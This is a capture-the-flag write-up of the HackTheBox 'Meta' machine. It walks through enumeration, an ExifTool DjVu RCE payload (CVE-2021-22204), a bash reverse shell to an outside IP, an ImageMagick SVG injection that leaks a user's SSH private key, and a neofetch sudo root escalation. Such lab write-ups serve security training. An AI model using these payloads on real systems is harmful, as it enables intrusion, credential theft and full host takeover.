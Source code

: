 ```yaml
---
description: Meta box from HackTheBox write up.
password: 22dcee4023c68244bf3b39034baf9932
---
```


# Meta

## Nmap scan

As usual let's launch a full port basic Nmap scan and then a more detailed one but only on open ports:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Meta]
└─$ sudo nmap -p- --min-rate 1000 10.10.11.140
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-29 04:16 EDT
Nmap scan report for 10.10.11.140
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 25.45 seconds
```

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Meta]
└─$ sudo nmap -p22,80 -sC -sV 10.10.11.140               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-29 04:18 EDT
Nmap scan report for 10.10.11.140
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.97 seconds
```

Just port 22 and 80 openned so let's start with the web server.

## Artcorp Webpage

### Initial Enumeration
First thing, the page is redirecting to `http://artcorp.htb/` to added the domain to my `/etc/hosts` file in order to access.

Since the page looks pretty empty I launched a `Gobuster` directory scan to check for something useful:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Meta]
└─$ gobuster dir -u http://artcorp.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://artcorp.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html
[+] Timeout:                 10s
===============================================================
2022/05/29 04:24:38 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 4427]
/assets               (Status: 301) [Size: 234] [--> http://artcorp.htb/assets/]
/css                  (Status: 301) [Size: 231] [--> http://artcorp.htb/css/]   
                                                                              
===============================================================
2022/05/29 04:29:10 Finished
===============================================================
```

No luck there but what about virtual hosts?

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Meta]
└─$ gobuster vhost -u http://artcorp.htb/ -w ~/Wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://artcorp.htb/
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/kali/Wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/05/29 04:27:59 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev01.artcorp.htb (Status: 200) [Size: 247]
                                                  
===============================================================
2022/05/29 04:30:01 Finished
===============================================================
```

There you go, adding the discovered subdomain to `/etc/hosts` file we are welcomed with a simple page that allow us to test application under development. Only one available, MetaView, the one the main page was talking about so let's take a look.

### RCE

The application allow us to upload a file and the page will show the metada information of it. Trying to add metada to a JPG image I noticed that I could get XSS, not usefull but hey it is something:
```bash
exiftool -overwrite_original -artist="<h1>TEST</h1>" exploit.jpg
```

Also I tried to inject a PHP payload but looks like the application is filtering it out. I tried for a while and even though I was not able to bypass the filter I found something while I was crying: [https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/){:target="_blank"}.

The page output looks really like `exiftool` being used to get the metada information so, maybe this RCE exploit could work. I replicated the PoC and generated a malicious image `exploit.jpg`:
```bash
# Payload file
(metadata "\c${system('id')};")

# Compress the payload and create a DjVu image
bzz payload payload.bzz
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz


#Create this configfile file for exiftool
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end%

# Using the configfile, inject the DjVu inside a JPG
exiftool -config configfile '-HasselbladExif<=exploit.djvu' -overwrite_original exploit.jpg
```

Uploading that file to the application will result in the `id` command being executed so we have RCE! We can now leverage this to get a reverse shell:

```bash
(metadata "\c${system('bash', '-c', 'bash -i >& /dev/tcp/10.10.14.12/8080 0>&1')};")
```

## In the machine as www-data

Using Pspy64 I saw that there are some funny things going on here:

```bash
2022/05/29 08:08:01 CMD: UID=0    PID=15560  | /bin/sh -c rm /tmp/* 
2022/05/29 08:08:01 CMD: UID=0    PID=15564  | /bin/sh -c cp -rp ~/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf 
2022/05/29 08:08:01 CMD: UID=1000 PID=15563  | /usr/local/bin/mogrify -format png *.* 
2022/05/29 08:08:01 CMD: UID=1000 PID=15561  | /bin/bash /usr/local/bin/convert_images.sh 
2022/05/29 08:08:01 CMD: UID=1000 PID=15566  | pkill mogrify
```

Looks like the user 1000 (`thomas`), is running this script as a Cronjob:

```bash
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

And also that the box love to delete things and move stuff around, this cost me some hours to be honest. Researchin about that `mogrify` thing I found [this](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html){:target="_blank"} blog about a vulnerability that can be used to inject commands using a malicious SVG file, this the one I used:

```xml
<image authenticate='ff" `echo $(cat /home/thomas/.ssh/id_rsa)> /home/thomas/0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

At first I tested this trying to write the command output to the `/tmp` folder but thanks to the box cleaning up stuff I wasted a lot of time "debugging" something that was working. At the end I came up with the above payload and I was able to get the private key of the user, it needed some formatting but I got an SSH session with it at the end.

## In the machine as thomas

First of all, get the user flag under `/home/thomas/user.txt`.

```bash
2022/05/29 08:08:01 CMD: UID=0    PID=15564  | /bin/sh -c cp -rp ~/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf 
```

Then I found something interesting:

```bash
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

Looks like this user is able to execute the `neofetch` command as `root`. According with the research I made, we can use this to get a shell as `root` using a configuration file with this content:

```bash
exec /bin/sh
```

The problem is that we can't specify a custom configuration file in the command but we can use the `XDG_CONFIG_HOME` environment variable. According to the documentation, Neofetch will use the file under `$XDG_CONFIG_HOME/neofetch/config.conf` and `sudo` is also configured to keep the `XDG_CONFIG_HOME` variable if present. 

With that information, I created `/home/thomas/neofetch/config.conf` and got a `root` shell:

```bash
thomas@meta:~$ cat neofetch/config.conf 
exec /bin/sh
thomas@meta:~$ sudo XDG_CONFIG_HOME=$HOME /usr/bin/neofetch 
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

The `root` flag is under `/root/root.txt`.
